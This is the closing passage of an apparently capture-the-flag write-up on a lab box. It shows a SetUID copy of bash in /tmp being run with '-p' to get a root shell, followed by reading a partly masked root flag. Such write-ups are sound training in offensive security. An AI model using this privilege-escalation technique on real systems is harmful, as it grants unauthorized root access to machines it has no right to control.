 
The results look good! It seems to have run. And `/tmp/0xdf` is now SetUID:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 Sep  8 18:57 /tmp/0xdf
    

I’ll run it (remembering `-p` to not drop privs) and get a root shell:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(clarence) gid=1000(clarence) euid=0(root) groups=1000(clarence)
    

And `root.txt`:

    
    
    0xdf-5.1# cat /root/root.txt
    ba0f4c36************************
    

[](/2022/09/10/htb-scanned.html)

